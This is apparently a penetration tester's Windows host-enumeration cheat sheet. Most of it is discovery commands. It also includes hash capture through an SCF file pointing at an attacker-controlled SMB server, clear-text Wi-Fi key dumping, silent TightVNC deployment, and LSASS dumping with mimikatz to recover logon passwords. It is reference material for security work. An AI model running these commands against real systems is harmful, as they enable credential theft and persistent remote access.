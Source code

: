# Host Enum

### General

#### Check os version

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

#### Check for additional drives \(meterpreter\)

```bash
show_mount
```

#### Check for additional drives \(wmic\)

```bash
wmic logicaldisk get name|caption
```

#### Check for additional drives \(powershell\)

```bash
get-psdrive
```

#### List installed programs

```bash
reg query HKEY_LOCAL_MACHINE\SOFTWARE
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall
```

#### Check linux subsystem

```bash
C:\Users\<name>\AppData\Local\Packages\CanonicalGroup...
```

#### Search writeable directories

```bash
dir /a-r-d /s /b
```

#### Search files by name

```bash
dir /s *foo*
```

#### Search Files by content

```bash
findstr /s /i <needle> *.*
```

#### Search Files by owner

```bash
dir c:\*.* /S /Q|FIND /i "owner"
```

#### Search files in meterpreter

```bash
search -f *.<ext>`
```

#### Search for alternate data streams \(ads\)

```bash
dir /s /R /a
```

#### Check named pipes in PowerShell

```bash
[System.IO.Directory]::GetFiles("\\.\\pipe\\")
```

#### Grep file contents in PowerShell

```bash
Select-String -Path <path> -Pattern <pattern> | out-host -paging
```

#### Enumerate SMB

```bash
smbmap -R -H \\<ip>
smbclient -L \\<ip> -N
smbclient \\<ip>\share -U <user>
smbget -R <ip>
```

#### Grant permissions with icacls

```bash
icacls <filename> /grant <username>(OI)(CI)F /T
```

#### Search registry

```bash
reg query HKLM /s | findstr /i <item>
reg query HKCU /s | findstr /i <item>
reg query HKLM /f <item> /t REG_SZ /s
reg query HKCU /f <item> /t REG_SZ /s
```

#### Print wlan keys

```bash
netsh wlan show profile <name> key=clear
```

#### PowerShell port scan

```bash
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<ip>",$_)) "Port $_ is open!"} 2>$null
```

#### Create local smb server and capture hashes

```bash
sudo impacket-smbserver <name> <path>
```

#### Capture hashes via scf file

```bash
[Shell]
Command=2
IconFile=\\X.X.X.X\xct\file.ico
[Taskbar]
Command=ToggleDesktop
```

#### Get User SID

```text
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```

#### Deploy TightVNC

```bash
msiexec /i "tightvnc.msi" /quiet /norestart ADDLOCAL="Server,Viewer" VIEWER_ASSOCIATE_VNC_EXTENSION=1 SERVER_REGISTER_AS_SERVICE=1 SERVER_ADD_FIREWALL_EXCEPTION=1 VIEWER_ADD_FIREWALL_EXCEPTION=1 SERVER_ALLOW_SAS=1 SET_USEVNCAUTHENTICATION=1 VALUE_OF_USEVNCAUTHENTICATION=1 SET_PASSWORD=1 VALUE_OF_PASSWORD=PASSWORD SET_USECONTROLAUTHENTICATION=1 VALUE_OF_USECONTROLAUTHENTICATION=1 SET_CONTROLPASSWORD=1 VALUE_OF_CONTROLPASSWORD=PASSWORD
```

#### Grep Registry for keywords:

```text
reg query HKLM /s /f <keyword> (try HKLM/HKCU)
```

#### Find files by date

```bash
forfiles /P C:\ /S /D 10/24/2020 /C "cmd /c echo @PATH"
```

#### Bypass Execution Policy \(for domain users\) by changing registry as local administrator

```bash
HKLM:\Software\Policies\Microsoft\Windows\PowerShell # change value to bypass
```

#### Useful commands in rpcclient

```bash
rpcclient -U <user> <ip>
lookupnames <name>
lookupsids <sid>
```

#### Dumping processes

```bash
procdump.exe -accepteula -ma <pid>
```

We can also use a short custom [program ](https://gist.github.com/xct/f78238aefa6fca8512ee2a7d0bc42f20) to avoid using procdump.

This dump can be read using mimikatz:

```text
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Credentials

Check for stored credentials:

```bash
cmdkey /list
```

### Company Files

This lead to success on numerous occasions. While not technical make sure you look at the files that are on the system. This includes configuration backups, documents, notes, technical documentation and more. 

### Seatbelt

```text
Seatbelt MappedDrives
```

#### 

### Other

Usually you want to run the scripts/tools from the Privilege Escalation Section. Other than that these are interesting as well:

* Screenshot
* Keylogger



